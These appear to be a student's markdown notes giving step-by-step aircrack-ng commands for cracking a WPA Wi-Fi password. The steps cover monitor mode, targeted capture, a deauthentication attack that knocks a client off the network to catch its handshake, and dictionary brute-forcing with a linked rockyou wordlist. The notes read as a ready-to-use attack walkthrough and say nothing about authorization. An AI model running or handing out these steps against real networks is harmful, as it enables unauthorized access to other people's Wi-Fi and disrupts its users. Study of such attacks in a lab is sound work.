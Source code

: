 #10/12/2015

###**WPA**

###Steps/Commands

**Window 1**
* service network-manager stop
* airmon-ng start "INTERFACE"
* airodump-ng mon0
* airodump-ng --bssid "BSSID" -c "Channel" --showack -w wpa_log "INTERFACE"

**New window**
* aireplay-ng -0 20 -a "BSSID" -c "HOSTNMAC" "INTERFACE" 
  * Will deauthenticate the host computer from the WiFi network (-0). We send 20 deauth packets (-20) Computer will probably reconnect automattically (Windows default setting), now we can catch the handshake! Once we have this handshake captured we can start cracking. You can check in Window 1 if you have captured the handshake.
* Ctrl + c
* Clear
* aircrack-ng wpa_log-01.cap -w "path to wordlist"
  * wpa_log-01.cap => Filename where airodump logs every packet (You can change the filename with -w)
  * "path to wordlist" !? WPA doesn't have the weakness in IV's like WEP has. We have to bruteforce the password. The wordlist is a text file containing possibilities (aka common passwords). An example is [rockyou](http://scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt)

###Some comments

We didn't do it on the RPi2 because:
* The hardware is to slow for bruteforcing
* It took ages to download the rockyou file @ school
* Bruteforcing is quite useless with the "random" generated passwords as default. (takes to long)

The bruteforcing can be speed up by using the GPU power. 
